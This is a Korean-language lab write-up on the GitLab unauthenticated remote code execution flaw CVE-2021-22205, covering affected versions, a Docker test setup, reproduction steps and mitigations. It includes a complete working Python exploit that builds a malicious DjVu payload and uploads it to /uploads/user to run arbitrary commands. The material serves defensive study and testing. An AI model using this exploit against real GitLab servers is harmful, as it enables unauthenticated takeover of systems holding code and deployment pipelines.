



# GitLab CE/EE Unauthenticated RCE via ExifTool (CVE-2021-22205)

**Contributor**
- [@zkfla](https://github.com/zkfla)

---
## 1. 취약점 요약 (Summary)

**GitLab**은 Git 기반 버전 관리에 이슈 트래커, 코드 리뷰, CI/CD 파이프라인을 통합한 DevOps 플랫폼으로, 기업이 사내 서버에 직접 설치해 운영하는 Self-hosted 방식으로도 널리 쓰입니다. 소스코드와 배포 파이프라인이 몰려 있어 침해 시 파급력이 큽니다.

GitLab은 사용자가 업로드한 이미지에서 EXIF 메타데이터를 자동으로 제거하기 위해 내장된 서드파티 도구 **ExifTool**을 거칩니다. ExifTool이 **DjVu** 이미지 포맷을 파싱하는 과정에 결함이 있었고(CVE-2021-22204), 이 결함이 GitLab의 **인증이 필요 없는 업로드 엔드포인트**(`/uploads/user`)와 맞물리면서, **로그인하지 않은 공격자도 GitLab 서버에서 임의 명령을 실행**할 수 있는 CVE-2021-22205로 이어졌습니다.

|구분|버전 범위|
|---|---|
|취약|`11.9 ≤ GitLab CE/EE < 13.8.8`|
|취약|`13.9 ≤ GitLab CE/EE < 13.9.6`|
|취약|`13.10 ≤ GitLab CE/EE < 13.10.3`|
|**패치 완료**|`13.8.8`, `13.9.6`, `13.10.3` 이상 (2021.04.14 보안 릴리즈)|
|본 실습 사용 버전|`13.10.1` (취약 버전)|

## 2. 환경 구성 (Environment Setup)

### 2-1. 환경 기동

```bash
docker compose up -d
```

### 2-2. 기동 확인

```bash
docker compose ps
curl -I http://localhost:8080
```

컨테이너 3개(`gitlab`, `postgresql`, `redis`)가 모두 `Up` 상태이고, `http://localhost:8080`에서 GitLab 로그인 페이지가 노출되면 기동 성공입니다.

### 2-3. 환경 종료

```bash
docker compose down       # 컨테이너만 정리 (볼륨 유지)
docker compose down -v    # 볼륨까지 완전 삭제
```


## 3. 취약 조건 (Vulnerability Condition)

- GitLab 버전이 `13.8.8` / `13.9.6` / `13.10.3` 미만
- Workhorse의 `/uploads/user` 엔드포인트가 인증 없이 접근 가능한 상태 (기본 설정)
- 업로드 파일에 대한 실제 콘텐츠(매직 바이트) 검증 없이 확장자만으로 ExifTool에 전달되는 상태
- 별도의 WAF/리버스 프록시 필터링이 없는 상태

## 4. 재현 (Reproduction)

1. 위 1절의 환경을 기동하고 `http://your-ip:8080`에서 GitLab이 정상 응답하는지 확인
2. 본인이 기동한 컨테이너를 대상으로 아래 코드를 입력하여 PoC 실행 (인증 없이 `/uploads/user`로 이미지 업로드)

    ```bash
    python poc.py http://your-ip:8080 "touch /tmp/success"
    ```

    

3. 컨테이너 내부에서 명령이 실제로 실행됐는지 확인 (PoC로 지시한 명령의 결과로 생성된 파일 **success**가 컨테이너 내부에 있는지 확인)
    
    ```bash
    docker compose exec gitlab bash
    ls /tmp
    ```

    

4. 명령이 어떤 사용자 권한으로 실행되는지 확인 (`id` 명령 결과를 파일에 기록시켜 컨테이너 내부에서 열람)   

    ```bash
    python poc.py http://your-ip:8080 "id > /tmp/pwn_id.txt"
    ```

    ```bash
    docker compose exec gitlab bash
    cat /tmp/pwn_id.txt
    ```

    

## 5. PoC 코드 (PoC Code)

```py
import sys
import re
import requests


target = sys.argv[1]
command = sys.argv[2]
session = requests.session()
CSRF_PATTERN = re.compile(rb'csrf-token" content="(.*?)" />')

def get_payload(command):
    rce_payload = b'\x41\x54\x26\x54\x46\x4f\x52\x4d'
    rce_payload += (len(command) + 0x55).to_bytes(length=4, byteorder='big', signed=True)
    rce_payload += b'\x44\x4a\x56\x55\x49\x4e\x46\x4f\x00\x00\x00\x0a\x00\x00\x00\x00\x18\x00\x2c\x01\x16\x01\x42\x47\x6a\x70\x00\x00\x00\x00\x41\x4e\x54\x61'
    rce_payload += (len(command) + 0x2f).to_bytes(length=4, byteorder='big', signed=True)
    rce_payload += b'\x28\x6d\x65\x74\x61\x64\x61\x74\x61\x0a\x09\x28\x43\x6f\x70\x79\x72\x69\x67\x68\x74\x20\x22\x5c\x0a\x22\x20\x2e\x20\x71\x78\x7b'
    rce_payload += command.encode()
    rce_payload += b'\x7d\x20\x2e\x20\x5c\x0a\x22\x20\x62\x20\x22\x29\x20\x29\x0a'
    return rce_payload

def csrf_token():
    response = session.get(f'{target}/users/sign_in', headers={'Origin': target})
    g = CSRF_PATTERN.search(response.content)
    assert g, 'No CSRF Token found'

    return g.group(1).decode()


def exploit():
    files = [('file', ('test.jpg', get_payload(command), 'image/jpeg'))]
    session.post(f'{target}/uploads/user', files=files, headers={'X-CSRF-Token': csrf_token()})


if __name__ == '__main__':
    exploit()
    print('finish test')
```


- PoC 출처: https://github.com/vulhub/vulhub/tree/master/gitlab/CVE-2021-22205


## 6. 대응방안 (Mitigation)

- **가장 확실한 방법**: GitLab을 `13.8.8` / `13.9.6` / `13.10.3` 이상으로 즉시 업그레이드
- **임시 완화책** (업그레이드가 당장 어려운 경우):
    - 리버스 프록시/WAF에서 `/uploads/user` 등 비인증 업로드 엔드포인트에 대한 요청 제한
    - GitLab을 인터넷에 직접 노출하지 않고 VPN 뒤에 배치
    - 업로드 가능한 파일의 확장자·MIME 타입을 서버단에서 화이트리스트로 강제
- **근본 원인 관점**: 신뢰할 수 없는 사용자 입력(업로드 파일)을 서드파티 파서(ExifTool)에 그대로 넘기지 않고, 실제 콘텐츠 검증(매직 바이트 확인) 및 최소 권한 샌드박스에서 처리
- **탐지**: 비정상적인 이미지 업로드 패턴, `/uploads/user` 엔드포인트에 대한 반복 요청을 로그 기반으로 모니터링

## 7. 참고자료

- GitLab 공식 보안 공지: https://about.gitlab.com/blog/action-needed-in-response-to-cve2021-22205/
- ExifTool 근본 원인 분석 (CVE-2021-22204): https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html
- Rapid7 분석: https://www.rapid7.com/blog/post/2021/11/01/gitlab-unauthenticated-remote-code-execution-cve-2021-22205-exploited-in-the-wild/
- NVD: https://nvd.nist.gov/vuln/detail/CVE-2021-22205
- 원본 환경/PoC 참고: https://github.com/vulhub/vulhub/tree/master/gitlab/CVE-2021-22205 (MIT License)